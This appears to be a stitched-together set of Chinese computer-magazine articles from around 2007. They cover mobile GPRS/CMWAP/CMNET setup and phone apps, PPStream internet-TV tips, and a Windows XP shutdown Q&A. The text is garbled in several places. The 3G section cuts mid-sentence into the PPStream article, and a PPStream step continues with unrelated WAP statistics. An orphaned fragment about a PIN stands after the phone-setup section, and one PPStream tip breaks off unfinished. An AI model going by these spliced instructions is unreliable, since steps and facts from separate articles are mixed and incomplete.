在理解了CMNET与CMWAP的区别，明白二者与GPRS的关系之后，我们还需要对手机进行一番设置，才能顺利上网。由于CDMA制式的手机的上网设置多数在出厂以前就已经配置完成，用户在使用过程中只需要申请开通上网套餐就可以正常上网。虽然GSM制式的手机部分也有出厂的默认设置，但是由于大量水货手机以及贴牌手机的存在，因此这里重点介绍一下GSM制式手机通过GPRS上网的设置方法。

##### 1. 申请开通GPRS

虽然中国移动旗下几大品牌全球通、动感地带，包括神州行在内默认都已经开通了GPRS上网功能，中国联通旗下GSM网络的手机也已经开通GPRS上网功能，但是还是建议用户根据自身的使用习惯及实际需要，选择一款适合的上网套餐，这样才不会在月底意外收到一份巨额的费用单。各种上网套餐的明细可以登陆移动运营商的网站查询。

- 你可以按以下方式开通：
  - 拨打10086/10010客服热线申请。
  - 去营业厅或者上网办理手续。

##### 2. CMWAP/CMNET的上网设置

鉴于当前GSM制式的手机上网多数使用的是中国移动的网络，所以这里的配置方式也主要是针对中国移动的手机设置，中国联通的用户可以咨询10010来获取上网设置方法。部分手机默认设置的是CMNET接入，如果不设置的话，使用CMWAP的包月的用户可就失去意义啦！下面我们将针对不同类型的手机详细介绍CMWAP和CMNET的设置方法。

##### 3. Symbian系统智能手机的上网设置

采用Symbian OS S4.0及S60第一、二版和第三版操作系统的手机在设置方式上基本相似，这里我们以NOKIA N70为例，说明一下CMNET和CMWAP的设置方法。打开功能表，进入“工具”→“设置”，选择“连接设置”。打开“连接设置”里面的“接入点”选项，点击左功能键“选项”，在弹出的菜单中选择“新增接入点”→“使用默认设置”。在弹出的“连接”页面，将连接名称改为WAP over GPRS，数据承载方式选择“分组数据”，接入点名称改为“CMWAP”。接下来的一页里面的用户名、密码全部为空，提示输入密码选否。将接下来的“鉴定”项设为“普通”，主页内容设置为http://wap.monternet.com。注意，此时单击左功能键，选择“高级设置”，网络类型、手机IP地址及域名服务器保持默认即可，在下面的代理服务器地址填写“10.0.0.172”，代理端口号码填写“80”。然后右功能键选择“返回”。此时手机的“接入点”页面里就有了我们刚刚设置的“WAP over GPRS”项，以后我们想要以CMWAP方式上网就可以选择它。接下来我们再添加CMNET方式上网的配置。仍然在“接入点”菜单里用左功能键选择“新增接入点”→“使用默认设置”。在弹出的“连接”页面，将连接名称改为CMNET，接入点名称改为“CMNET”。将“鉴定”项设为“普通”，主页设置为空，其它各项设置均为默认。然后右功能键选择“返回”。此时手机的“接入点”页面里就有了我们刚刚设置的“CMNET”项，这就完成了我们使用CMNET方式上网的配置（图1）。

##### 4. Windows Mobile系统智能手机的上网设置

采用Windows Mobile操作系统的手机拥有丰富的网络配置选项，支持多种不同的网络接入方式。由于多数Windows Mobile系统的手机在出厂时已经内置好了CMNET的上网设置，因此此处我们介绍CMWAP的上网设置方法。

我们首先打开“开始”菜单中的“数据连接”，然后我们点手机右键“菜单”选择其中的“编辑连接”，选择“3.代理服务器连接”，在弹出的窗口中用手机右键“菜单”中的“添加”来添加一个代理服务器连接，在“添加代理服务器连接”页面的“描述”中我们可以随便填入这个连接的名称，比如“WAP over GPRS”。在“连接方”中我们选择“WAP网络”。在“连接到”中我们选择“Internet”。在“代理服务器”中输入“10.0.0.172:80”。在下边的“类型”中选择“HTTP”。此连接是用来上WWW的代理。填写完成后，点手机左键“完成”。之后回到“编辑连接”这一层，选择第4项“GPRS连接”，点手机确定键，建立一个新连接，和建立代理服务器连接同样的步骤，手机右键“菜单”选择“添加”，这时会打开“添加GPRS”窗口，我们在“描述”中填写“WAP over GPRS”，在“连接到”中选择“WAP网络”，在“访问点”中填写“CMWAP”。填写后点“完成”。然后我们再新建一个连接，“描述”中填写“WAP over GPRS”，在“连接到”中选择“安全WAP网络”，在“访问点”中填写“CMWAP”。填写后点“完成”。然后再点完成，回到“数据连接”这一层，将“Internet连接”、“WAP连接”和“安全WAP连接”都选“WAP over GPRS”，“工作连接”选“自动”，然后一路点“完成”，回到开始菜单。这样设置接入的就是CMWAP网络，开通了CMWAP套餐的用户就可以遨游网络了。

##### 5. Linux系统智能手机的上网设置

在摩托罗拉、三星等厂家推出的以Linux为核心的智能手机当中，手机上网的设置方式也都大同小异，这里就以MOTO E680i的设置为例，使用Linux系统的其他手机可以以此为参考。

###### （1）网络连接设置（APN设置）

- 在“主菜单”→“设置”→“数据网络”中依次添加2个连接（其他连接可以删除）。
  - ① WAP over GPRS, 用于手机自带浏览器上网登陆WAP网站及部分客户端软件使用。
    配置名称: WAP over GPRS
    GPRS设置: APN: cmwap; 用户名、密码等均为空；其他保持默认设置。
    CSD设置: 拨号: 17266; 用户名、密码、重输密码: wap; 其他均默认。
  - ② CMNET, 用于手机登陆WEB网址，收发电子邮件，以及部分手机客户端软件使用。
    配置名称: CMNET
    GPRS设置: APN: cmnet; 用户名、密码等均不设；其他均默认。
    CSD设置: 拨号: 17201; 用户名、密码、重输密码: 172; 其他均默认。

在以上2个连接添加完成后，点移动梦网打开，点右下角图标，选设为默认。

###### （2）更改浏览器设置启用CMWAP上网

打开浏览器，点击右下角图标，选“设置”中的“配置文件”，添加新配置，配置名称为：WAP over GPRS；“主网关IP”设置为10.0.0.172；“端口”设置为80；次网关IP、端口均默认；主页地址可以填入http://wap.monternet.com，保存退出浏览器后，重新打开，就可以上网了。

##### 6. 普通非智能手机的上网设置

非智能手机的配置选项所处的位置各不相同，用户需要在手机的设置页面里找到“数据连接”或者“网络连接”或者其他类似选项。在“网络”或者其他表示上网的选项里，找到浏览器设置，再进行连接设置。网关地址填：10.0.0.172，端口为：80。接入点依据手机卡所订制的上网套餐种类分别设置为CMWAP或者CMNET。用户名和密码均为空。主页地址可以设置为移动梦网的网址http://wap.monternet.com，或者其他WAP网址。注意，当接入点设置为CMNET时，主页地址可以为空或者设置为WWW网址。

择同意安装这些设定（此时需要输入上一步当中网页最后给出的四位数的PIN码）。手机将显示信息，说明新设定已导入手机，配置完成。

##### 7. 手机通过蓝牙或者数据线共享电脑上网的设置

手机借助于电脑网络上网，不仅在接入速度上比使用手机网络上网要快很多，而且还省去了并不便宜的GPRS/CDMA的流量费用，可谓一举两得。但是这种方式同样也存在局限性，那就是不能像通过自身网络上网那样，几乎没有地域限制。共享电脑上网就要求用户必须在上网电脑旁边的小范围内使用，即使是不使用数据线而通过蓝牙方式连接，也只是将手机的移动空间扩大到一个房间的范围而已，再大就会因为失去同电脑的连接而断线了。

IT168索尼爱立信刚才在P990i上建立的那个账户的TCP/IP设置，选择IPV4，IP地址设置和PC机同一个段就行，如果PC的IP是192.168.0.1，那么手机的IP地址就可以设置成192.168.0.10，网关和网络掩码分别设为192.168.0.1和255.255.255.0，“IP DNS”设置项中首先选择IPV4设置，主DNS地址设为192.168.0.1，辅DNS地址可以不用填，或者设为ADSL的DNS地址。

这时，打开手机网页浏览器，输入WEB网址，此时P990i会自动搜索到你的PC机，在PC机前打钩，完成。PC端会跳出窗口，询问是否允许连接之类，选择允许。连接成功后，原来蓝色的蓝牙图标会变成绿色，而且会出现远程设备“P990i”连接到本机“个人局域网”服务的文字表述。至此就可以享受共享上网的无限乐趣了，再不用担心手机的网络流量超出包月套餐的限制了。

#### 三、手机上网应用

在单机情况下，手机还仅仅是一部通信工具，但是当手机成为一台网络终端时，基于手机的应用就一下子多了起来，几乎让人应接不暇。首先上网浏览新闻、进行信息查询就很平常了，休闲时再同网友来一局网络游戏，寂寞时通过即时聊天工具或者登陆聊天室找好友胡说神侃一番，再登入自己的电子邮箱，查询是否有新的邮件待收，甚至还可以为我们节省部分手机费用。

##### 1. 资讯浏览

用户通过手机上网要想查阅新闻可以采取两种方式：一种是直接登陆各大WAP网站，例如移动梦网、手机搜狐网、空中网等。目前大多数的WAP网站提供的服务都是免费的，除了浏览信息产生的流量费用外，并不会产生任何服务的包月费用。在这些WAP网站当中，除了传统的三大门户网站的手机版之外，还诞生了一批拥有自己特色的WAP站点，他们并没有简单地复制传统互联网门户网站的模式，而是结合移动互联网的特点，创造出了具有自身特色的东西。比如：空中网、3G门户网等。

- 移动梦网：wap.monternet.com
  手机新浪网：3g.sina.com.cn
  手机腾讯网：wap3.3g.qq.com
  手机搜狐网：wap.sohu.com
  手机网易：wap.163.com
  3G门户：wap.3g.net.cn
  新华手机报：wap.xinhuanet.com
  空中网：wap.kong.net
  手机百度：wap.baidu.com
  移动凤凰栈：wap.phoenixtv.com
  基金天下：wap.tttz.com
  手机加油站：wap.sjjyz.com
  3G泡泡：3g.pp.cn

另一种方式是在手机上安装客户端软件来实时接收上网资讯，比如掌中新浪（http://3g.sina.com.cn/game/w/sinago.php?&from=60509）、玩铺(WEP)（wap.wep.cn）、掌讯通(wap.handcn.com)、RSS浏览器等软件。

##### 2. 邮件收发

电子邮件已经成为我们生活中不可缺少的组成部分，每天收发电子邮件已经成为习惯，下面我们就介绍一下如何利用手机实现电子邮件的收发。
这里所说的手机收发电子邮件并不是指邮件服务商提供的通过短信通道转发邮件的随身邮等业务，而是指手机通过GPRS网络收发Email的功能。要想实现直接用手机收发邮件，就必须有一部支持邮件功能的手机或安装手机端的邮件软件。
这里就为大家介绍几个邮件收发功能不错的软件。

| 软件名称 | 软件介绍 | 软件版本 | 官方网址 |
|----------|----------|----------|----------|
| 尚邮 | 尚邮是一款采用主动推送技术的软件，可以提供邮件即时收发功能。而且支持在手机和网络上互为备份邮件。支持多账户同时收取邮件，支持POP3/IMAP4/MS Exchange/Domino等主流邮件服务器，并具备一定的反垃圾邮件能力。 | 支持Java、Symbian以及Windows Mobile系统 | www.shangmail.com |
| UCWEB | UCWEB邮件功能支持163、hotmail、Yahoomail等绝大多数标准邮箱以及多种邮件附件格式（如DOC, XLS, PDF, TXT, JPG, BMP, EML, HTM, ZIP等），同时对账户密码和应用程序进行加密，可以较好地保证邮件收发安全，而且支持多账号登录收取。UCWEB不仅仅具备邮件功能，搜索、浏览、下载及个人数据管理等功能也相当实用。 | Java版及Symbian版 | www.ucfly.com |
| 魔橙 | 支持选择性接收比如附件的收发和阅读，也支持包括POP3/IMAP/Secure POP3/Secure IMAP/Exchange各种邮件系统集成。邮件收发采用加密技术，而且支持邮件过滤设置防止垃圾邮件。 | 适用于包括Windows Mobile、Symbian、J2ME和Linux在内的多种手机平台 | http://monet.morange.com/ |

##### 3. 网络聊天

类似QQ和MSN这些即时通讯软件，几乎每个人的电脑里都是必装的。而随着中国移动市场的高速发展，手机用户增长迅速，将这些即时通讯软件与手机结合成为一种必然趋势。离开电脑网络却能保证和好友实时聊天沟通，现在可以通过手机上网这一平台实现了。目前手机平台的即时聊天软件基本沿袭了互联网时代的格局，手机版的QQ和MSN顺其自然地占据了主流的位置，而一些在移动互联网平台上才刚刚起步的软件目前也逐步发展壮大，为我们提供了有别于互联网时代的更多选择。

| 软件名称 | 软件介绍 | 官方网址 |
|----------|----------|----------|
| 手机QQ | 几乎是电脑版QQ的克隆版本，而且采取平台化发展，集成了WAP资讯、在线游戏、网络下载、QQ空间、在线影院、电子邮件等诸多功能。新近还特别针对联通的GPRS用户开发了相应的版本。由于拥有4亿QQ用户这一巨大资源，因此是移动即时聊天领域当仁不让的一哥。 | Mobile.qq.com |
| 手机MSN | 在手机QQ宣布免费使用后，手机MSN也紧接着取消了原有的月功能费，同步保持对手机QQ的竞争力。由于原MSN用户多为办公室白领，因此用户忠诚度相当高，手机MSN无疑会为其夺取即时聊天领域更大的份额加码。 | mobile.msn.com.cn |
| Pica "皮咔" | 作为移动即时通讯领域的后起之秀，PICA自2005年1月正式推出以来发展迅速，目前已有超过1000万用户，而与移动MSN的深度合作也更充实了公司的技术实力。软件本身非常小巧，但是功能却是相当丰富，无论是语音短信、文件传送、移动博客还是PICA秀等等，都像一块巨大的磁石，不断吸引新的用户加入这一平台。在充分开发移动即时通信领域的个性化业务方面，无疑PICA走在了其它软件商的前列。 | www.pica.com |

##### 4. 信息查询

当我们需要查询到某一地点应当如何换乘公交车时，当我们需要查询某次航班的起降时间时，当我们需要查询两地间的列车车次时，当我们需要查询当天的股票行情时，而身边却没有电脑时，通过手机上网查询就成为了我们方便快捷的选择。我们可以登陆WAP网站或者使用专门的手机客户端软件来获取相关信息。
仅以公交查询为例，用户就可以有诸多选择：
同样我们在需要查询航班及列车时刻信息、天气预报或者电视节目表等信息时，都可以登陆相关的WAP网站进行查询。
虽然登陆WAP网站查询是一种不错的方式，但是如果我们经常查询这些信息，而且涉及的内容比较杂时，再用手机逐个登陆这些WAP网站就显得有些繁琐了，于是我们又想起了另外一种方式，即手机直接从WAP网站下载安装或者通过数据线从电脑传输安装一个手机端应用软件，安装完成后软件会在手机工具菜单里生成一个程序图标，每次我们都可以如同打开手机自带的功能一样，运行该软件，然后在软件里输入我们待查询的事项，由软件提交至远端服务器，最终在手机软件中显示返回的查询结果，省去了我们输入WAP网址，登陆后再提交查询然后等待结果这一系列复杂的步骤。利用这一方法一切都如同是在本地完成了全部的过程，大大提高了我们查询信息的便利性。这里就简要介绍一个在信息查询方面比较有特色的手机端应用软件——玩铺。

- 搜狐地图推出的公交查询：http://wap.sohu.com/go2map/newbus/bus.jsp
  新浪爱问搜索推出的公交查询：http://3g.sina.com.cn/iask/local/gi.php
  中国移动推出的公交查询站点：http://wap1.mty.cn/wapadmin/bus/bus_change.jsp#main

玩铺(WEP)是一款集聊天交友、手机游戏、新闻资讯、博客、电子图书、星运占卜等项目于一体的全能掌上信息平台。软件采用九宫格菜单，分类简洁明了，支持众多品牌的绝大多数手机，用户使用这一软件可以轻松查阅到有关天气、航班、公交、列车、地铁、电视节目、宾馆及美食等相关信息，同时资讯栏目提供了不同类别的时事新闻，闲暇之余还可以同在线玩家进行一场象棋大战，或者看上几本电子书，或者领养一个电子宠物，边写自己的博客，边同好友在线聊天。玩铺(WEP)在向我们提供强大的信息搜索查询能力的同时，还把自己演变成了一个全方位娱乐平台。
玩铺(WEP)的官方WAP网址为：http://wap.wep.cn，用户可以用手机登陆之后选择合适的客户端下载安装。或者也可以通过电脑登陆http://www.wep.cn网站，根据自己的手机型号下载适合的客户端之后再用数据线安装到手机上。
目前这类平台式软件除了上面介绍的玩铺(WEP)外，由北京龙腾阳光科技发展有限公司推出的掌迅通也是一款比较优秀的手机端软件。掌迅通的官方WAP网址为：http://wap.handcn.com。用户可以根据自己的兴趣需要来进行选择。

##### 5. 发送免费短信

我们平常通过手机给好友发送短消息都是以条数为单位计费的，在手机拥有了上网这一便利条件之后，我们就可以不再用手机的短信功能发送消息，而是安装一些特别的上网软件，同样可以将我们想要说的话以短信的形式送到好友的手机上。这些软件也并不是真正意义上的免费，只是它们借助于GPRS技术实现际普通的短信收发功能，虽然软件本身并不收费，但是用户在使用过程中仍需要向手机运营商支付由此产生的GPRS流量的费用。即使是如此，相对于普通手机短信一条10分或者15分的费用来说，这些GPRS流量费要便宜得多，使用软件发送一条短信的GPRS流量一般为1-2KB，而且我们可以选择各种不同的流量套餐，进一步降低费用。下面就重点介绍几款目前影响比较大的此类软件。

| 软件名 | 官方网址 | 软件使用说明 | 软件版本 | 发送覆盖范围 |
|--------|----------|--------------|----------|----------------|
| 坐坐客Zozoc | http://www.zozoc.com/new/index.jsp | 纯免费发短信软件，没有其他业务，使用简便。 | 目前仅有Java版本 | Zozoc目前支持发送至全国的移动、联通、小灵通。小灵通的通道稳定性比较一般。 |
| 苹果Pingco | http://www.pingco.com/newpingco/default.aspx | 免费使用，在线PingCo用户之间发送PingCo消息不会产生任何费用。PingCo用户向非PingCo用户或离线用户每发送一条离线消息则会被扣掉10个苹果。用户可以通过购买金苹果，兑换成苹果来使用；第一次注册登录、每天登录、推荐一位好友注册都将赚取数量不等的苹果；可以通过参加PingCo各种活动赚取苹果。 | Java版和Symbian专业版 | 同时支持向移动与联通用户发送短信，但暂时不支持小灵通用户 |
| 飞信 | http://www.fetion.com.cn/ | 飞信是中国移动推出的综合通信服务，融合语音（IVR）、GPRS、短信等多种通信方式。支持PC、手机、WAP等多种终端登录，飞信用户之间互发短信免费。 | Java版、短信版、WAP版和PC版 | 仅支持移动用户 |
| 超信 | http://www.ums.org.cn/ | 超信是中国联通的综合即时通信服务，超信的用户可以通过手机客户端（BREW、Unija）、PC客户端、短信客户端、WAP客户端、IVR客户端多种手段随时使用超信服务，超信用户之间互发短信免费。 | BREW版、Unija版、短信版、WAP版、IVR版和PC版 | 仅支持联通用户 |
| 悠信Uxin | http://uxin.cn/ | 双方都是悠信用户不扣除U币，悠信用户给非悠信用户发短信扣10U币，彩信扣10U币。U币可以通过以下方式获取：注册、推荐好友注册、参加网站活动、每天在线，或者上传软件、电子书、图片、铃声等资源赚取U币，还可以在网络社区打工赚币。 | Java版、Symbian专业版、Pocket PC2003/2005版和Smart Phone2003/2005版 | 支持向移动与联通用户发送短信，不支持向小灵通用户发送短信 |

##### 6. 手机网游

鉴于互联网平台上的网络游戏带来的巨大产值效应，基于手机平台的网络游戏在最近几年发展迅速，有报告显示，随着用户的认同度和手机网络的发展，手机网游的用户数量和产品都大规模增加，2007年手机网游市场运营收入将达1.10亿元人民币，2008年将达3.80亿元人民币。手机网游已经成为游戏产业新的增长点，而且有别于手机中的单机游戏，网络游戏使用户有更多的选择，而且新奇有趣的游戏模式、随时随地可以使用的方便快捷、强大的交友功能都受到了用户的广泛欢迎。
这里推荐几个比较不错的手机网游的网站以及热门网游。

- 手游天下：wap.gamezero.cn/
  腾讯游戏频道：games.qq.com
  《失落时空》：http://www.mmo3g.com/
  《大宋豪侠》：http://www.dshx.cn

#### 四、手机上网问题

谈起手机上网，就不能不说到“3G通信”。所谓3G，其实它的全称为3rd Generation，中文含义就是指第三代数字通信。相对于第一代及第二代数字通信标准，3G标准规定，移动终端以车速移动时，其传输数据速率为144kbps，室外静止或步行时速率为384kbps，而室内为2Mbps。我国也提出了自己的3G标准——TD-SCDMA，并被国际电信联盟确定为未来3G标准之一。TD-SCDMA标准对于中国电信业的意义已经远远超越了这项技术本身，它是我国通信史上第一个完整的通信技术标准，是我国移动通信领域的一次创举，也是中国对全球第三代移动通信发展所做出的巨大贡献。它的出现打破了欧美在通信技术领域内的标准垄断，增加了我国在国际高新技术领域的话语权，也标志着中国在移动通信领域已经进入世界领先之列。我国政府承诺将会于2008年奥运会时向公众提供3G网络服务，目前移动运营商正在加紧对各大3G标准进行网络测试，届时采用3G标准的手机将会成为一款真正意义## 我这样看电视
### ——网络电视软件PPStream实用技巧
文/胡鹏

随着Internet的普及，越来越多的人开始收看网络电视，尤其是观看一些电视台不转播的体育比赛，如NBA等。据报道，目前全国有150家左右的公司在网络电视领域内进行投资，其中甚至包括“微软”等IT巨头。已经有5000多个网站开始进行网络电视的实验播放。网络电视正在揭开一场互联网盛筵的序幕。

网络电视的消费群体可以总结为三大类。第一类消费人群是不再愿意“吃大锅饭”的消费者，传统电视归根结底是一种“我播你看”的服务模式，提供什么内容，何时提供，都由电视台控制，而网络电视的出现则满足了观众自由选择节目的需要。第二类是希望在“饭桌”边上能够有“酒水饮料”的人们，他们希望通过多媒体的方式与世界沟通，一边收看电视节目，一边浏览相关资料，一边与朋友聊天，这种需求代表了未来的媒介消费趋势。此外，还有一类人希望随时随地“有东西吃”，他们大多是体育发烧友，希望即时观看到最新的体育比赛实况，除了在家中收看传统电视外，他们还希望能够在单位的电脑上收看到网络电视。

目前比较热门的网络电视软件包括PPStream、PPLive、CCIPTV以及“QQ直播”等，它们都是使用P2P-Streaming技术且完全免费的网络电视软件，具有用户越多播放越稳定，支持数万人同时在线的大规模访问等特点，有效地解决了当前网络带宽和负载有限的问题，在播放网络电视时，数据缓存在内存里，因此虽然采用的是类似BT的P2P技术，但不会对硬盘造成任何损害。

在这些网络电视软件中，本人最喜欢PPStream。传统的P2P网络电视，一般都是只提供直播功能，而PPStream同时具有直播和点播两种功能，还能实现画面调节功能。PPStream功能丰富，播放流畅，是一款不可多得的网络电视软件。PPStream的使用方法也很简单，一般用户都能轻松上手，下面我们要深度挖掘一些PPStream的应用技巧，让它更好地为我们服务。

#### 一、突破网络封锁

最近一段时间，铁通和一线通用户遇到这样的情况：使用PPStream观看网络电视一直都很正常，但是最近播放时，老是不断进行反复缓冲，稍微能放，画面也是一晃而过，即再次进入缓冲，根本就无法正常播放。这到底是什么问题呢？其实，这是因为ISP供应商限制了P2P网络电视播放软件。这样是不是就看不了网络电视了呢？没关系，使用新版的PPStream可以解决这个问题，新版本是专门针对网络运营商限制问题而推出的。

安装并启动新版PPStream软件，执行“工具→选项”命令进入“PPS网络电视选项设置”对话框。单击“网络信息”选项卡，依次设定相关信息，包括：网络运营商、接入方式、网络类型、网络带宽，但最重要的是要选中“我的网络受到运营商限制”，如图1。确认之后，播放一下网络电视试试？问题是不是迎刃而解了。

目前PPStream开发团队正在开发彻底解决全国各ISP限制的新版本，到时候将会自动解决这个问题，无需特别选项和设置即可正常解除限制。



图1 通过网络信息设置，突破网络封锁

#### 二、实现“画中画”效果

我们在家里收看传统电视时，常常使用“画中画”功能来同时欣赏两个电视节目，避免错过精彩的内容。现在好了，新版PPStream网络电视中也增加了“画中画”功能，这样我们就不用再启动多个PPStream客户端来欣赏电视节目了，这样可以有效减少系统资源占用量，这对于一些配置不高的电脑来说非常实用。

在PPStream中实现“画中画”的方法非常简单：在播放网络电视的过程中，在“频道列表”中选择感兴趣的节目上的“个人信息网络化终端”。除了完成基本的通讯功能外，3G手机还将具备可视通讯、多媒体处理、高速网络接入等强大功能。

依据中国互联网络信息中心(CNNIC)发布首份《2007中国无线互联网(WAP)发展状况调查报告》显示，截至今年三月底，中国的WAP活跃用户数约为三千九百万人，具有独立域名的WAP站点数量约为六点五万，中国无线互联网已经进入快速发展期。当然，目前的WAP活跃用户数同4.8亿的手机用户数字比起来，尚且不足后者一成，这也说明手机上网的发展空间相当大。随着3G网络的建成普及，凭借远超于2G网络的数据带宽，可以实现诸如双向可视电话、在线3D游戏、基于服务器的音视频点播、多模式智能搜索等多种服务，最终将手机构建成一个便捷易用的人机信息交互平台。或许未来手机上网将成为人们主要的上网方式，因为手机的便携性以及无处不在的手机网络是其它任何一种上网方式都无法比拟的，它几乎不受时间、地点及接入设备等限制。目前多数网民通过电脑上网进行的网络聊天、邮件收发、在线游戏、新闻浏览、在线购物以及网络订客房、机票等等活动，如果移植到手机上网这一平台上来，也许就更加轻松惬意了。

#### 三、关闭屏保和休眠，放心看节目

你有没有遇到这样的情况：正在津津有味地欣赏网络电视时，屏幕保护程序突然跳出，或者电脑自动休眠，从而打搅了我们的好兴致。为了不影响正常观看网络电视，我们需要事先在系统中将屏保程序禁用，或延长等待时间，还要对电源选项进行相关设置，以后可能还需要将设置改回来，这样做就显得十分麻烦。其实PPStream已经内置了解决方案，只要进行一下简单设置就可以解决这个问题，方法是：打开PPStream的选项设置窗口，单击“播放器”选项，选中“禁止屏幕保护程序和电源管理”并确定即可，如图3，以后就可以放心收看电视节目了。从此细节可以看出，PPStream替用户考虑得真是非常周到。



图3 关闭屏保程序和电源选项

#### 四、全屏播放更方便

老版本的PPStream在全屏播放网络电视的过程中，不显示控制栏和按钮选项，这给用户操作带来了很大不便。新版PPStream增加了全屏状态下显示控制栏选项功能，在PPStream主界面上依次单击“工具→选项”，打开选项设置窗口，选中“播放器”选项卡下的“全屏幕时，显示控制栏在屏幕边缘”选项，如图4，以后在全屏幕状态下欣赏网络电视节目时，就可以更方便地进行停止、暂停或音量调节等操作。



图4 让PPStream在全屏模式下显示控制栏

#### 五、让PPStream进驻Maxthon浏览器

Maxthon（遨游）浏览器是一款非常受欢迎的网页浏览器，是很多电脑爱好者的装机必备软件。我们可以让PPStream进驻Maxthon浏览器，一边浏览网页，一边看网络电视，真正做到工作娱乐两不误，在流行的宽屏液晶显示器上使用时效果尤其好。下面就以Maxthon 2.0为例进行讲解。

下载PPStream For Maxthon 1.0插件，解压后把PPStream文件夹复制到Maxthon安装目录下的Plugin文件夹中。启动Maxthon，使用“工具→管理插件”命令，在“插件管理器”下选中PPStream并单击“应用”按钮，启用插件。

以后，在遨游中使用“查看→侧边栏→我的网络电视”命令，或在侧边栏上单击PPStream按钮，这时Maxthon浏览器左侧就会显示PPStream网络电视播放界面，现在你就可以在Maxthon里欣赏PPStream网络电视了，如图5。如果此过程中弹出Windows防火墙警告窗口，选择“解除阻止”即可。Maxthon浏览器的侧边栏是自动隐藏的，单击上方的“自动隐藏”按钮可以使其始终显示，以方便我们欣赏网络电视。



图5 在Maxthon中同时收看网络电视和浏览网页

#### 六、让PPStream进驻Vista侧边栏

Vista系统新增了“侧边栏”这个漂亮又实用的小工具，让很多用户爱不释手，不少软件厂商和电脑爱好者也制作出各种实用的侧边栏工具来让大家使用。PPStream也推出了PPStream侧边栏工具，有了它，就可以在Vista侧边栏中在线欣赏网络电视了，真是超酷的功能！

进入PPStream官方网站的下载页面“www.ppstream.com/download”，下载PPStream侧边栏工具，解压缩后双击PPStreamTV应用程序执行安装，系统会提示无法验证，没关系，单击“安装”，之后会弹出一个IE加载项的安全警告，再次单击“安装”，PPStream侧边栏工具就会出现在Vista侧边栏上。

接下来我们就可以使用PPStream侧边栏工具欣赏网络电视了。单击频道列表扩展按钮“《”显示PPStream的频道列表，选择我们想要欣赏的影视节目双击，稍等片刻，等缓冲完成之后，你就可以直接在PPStream侧边栏小工具中欣赏影视节目了，如图6。怎么样，是不是很方便呀！单击频道列表的“》”按钮可以将它收回。



图6 在Vista侧边栏中看PPStream网络电视

在PPStream侧边栏工具上单击鼠标右键，还可以选择“全屏播放”、“静音”等选项，对播放进行控制。当然，你也可以将PPStream侧边栏工具拖到主显示区独立观看。

如果想要一边工作一边看网络电视，为了不让其他窗口挡住侧边栏，还可以在侧边栏空白区域单击鼠标右键，选择“属性”命令，在打开的“属性”窗口中选中“边栏始终在其他窗口的顶端”。

#### 七、找回PPStream的播放列表

在使用PPStream的过程中，在进

#### 八、在PPStream里实现定时播放

PPStream有很多频道，而且还有每个频道的节目表，这样就可以很清楚地知道将要播放什么节目，但有时候会因为在电脑上忙其他事而忘记了收看某个电视节目。如果可以定时播放，那就可以避免错过好看的电视节目了，下面我们就来学习如何在PPStream中设置定时播放。

在PPStream频道列表中选择你想定时播放的节目，单击鼠标右键并选择“定时播放”，打开“计划任务”对话框，如图7。在其中设置执行计划任务的时间，使用默认的计划任务——播放频道，最后单击“添加”按钮即可。这样我们只要开着PPStream，等时间一到就会自动播放指定的电视频道了。如果想取消某个定时播放计划的话，可以先在任务列表中选中它，之后单击“删除”即可。同时，在计划任务设置界面中，你还能方便地设置其他一些计划任务，如定时关机、定时关闭显示器、定时停止播放等。



#### 九、PPStream也玩老板键

每当遇上类似NBA、足球联赛这样的一些精彩赛事，很多上班族球迷就会忍不住在上班时间偷偷观看，这要是被老板发现就惨了。其实你只要使用了PPStream的老板键功能，那么就大可不必担心此问题了。执行“工具→老板键”命令，在随后显示的窗口中勾选“启用老板键”选项，接着选择“自定义热键”并按一下要使用的热键，确定即可。现在当你再遇上突发情况，只要按下热键，不但看不到PPStream，而且连声音都听不到了，是不是很安全？再按一次老板键，就可以将PPStream调出来继续欣赏。

#### 十、通过左右声道选择，解决双语问题

目前不少影视节目都是“国/粤语”双声道的，默认情况下，可能会两种语言同时播放，这为用户观看节目带来了麻烦。这时你可以通过设置左右声道来解决，依次执行“工具→声道”，按照实际情况选择需要的左或右声道即可。

#### 十一、使用收藏夹，收看频道更方便

为了方便用户查找，PPStream对频道进行了分类，也提供了频道搜索功能。但是如果能将自己喜欢的频道收藏在一起，那将会更方便！具体操作是：选择喜欢的频道或栏目后，执行右键菜单中的“添加到收藏夹”，此时就能将频道添加到频道列表中的“我的收藏夹”中，以后打开此收藏夹就能快速观看你喜欢的栏目。

#### 十二、画面调节功能，打造影院效果

经常观看网络电视的朋友一定会有这样的体会：画质差就算了，一些节目的画面亮度非常低，很难看清楚。一般的解决方法是使用系统默认的播放器软件（如Windows Media Player、暴风影音）来播放节目内容。现在好了，新版的PPStream直接为用户提供了视频画面调节功能，同时支持亮度、对比度、色度、饱和度这四项内容调节。

要想调整画面的亮度、对比度、色度、饱和度就必须使用内置播放器。执行“工具→选项”命令进入设置界面，随后勾选“使用PPS自带的播放器”，如图8。然后重新启动PPStream即可。



以后，在需要对画面进行调节时，执行“工具→画面调节”命令，就能在播放界面下面看到亮度、对比度、色度、饱和度这四个调节选项。拖动滑块进行调节，效果将即时显现出来。如果对调整后的画面效果不满意，只要单击调节区域处的“默认设置”即可恢复如初。

总而言之，与同类软件相比，PPStream确实有很大的特色和优势，有了这款优秀的网络电视软件，你就不用再跟家里人抢电视机了，因为网上有更好看的！

### 傻博士问答：Windows XP关机与启动速度缓慢

故障现象：硬件配置是Barton 2500+与nForce2双通道DDR，但是在Windows XP中关机速度非常缓慢？有时系统停留在“保存设置”的画面上，不能正常关机。此外，启动速度也比以前的Duron+KT133配置还要慢。

故障分析：与Windows 2000或者Windows 98相比，Windows XP的关机速度确实是比较慢的。不过出现无法正常关机可不正常。

解决方法：此时应该安装关机补丁程序或者直接安装Service Pack 1。其实，如果想快速关闭系统的话，可以按下组合键“Ctrl+Alt+Del”，在弹出的“任务管理器”中按住“Ctrl”键，点击“关机→关机”，此时关机速度将非常快。至于启动速度问题，建议你升级nForce2芯片组的IDE驱动，并且保证硬盘工作在ATA100/133模式下。老版本的nForce2 IDE驱动存在BUG，在Windows XP下会以PIO模式工作，此时自然大大影响启动速度。此外，内置网卡以及IEEE1394控制器也可能是导致启动速度变慢的原因，可以尝试在BIOS中禁用。

### 论坛强人必杀技

◆文 / TMG yc

引言：对于我们这种菜鸟级别的人物，总梦想着有一天能成为论坛强人，但看到一大堆的代码自然就止步向前了。其实，成为论坛达人也不是那么苦难的事，只要按下面一步一步来，很快就能满足你的愿望——成为真正的论坛强人！

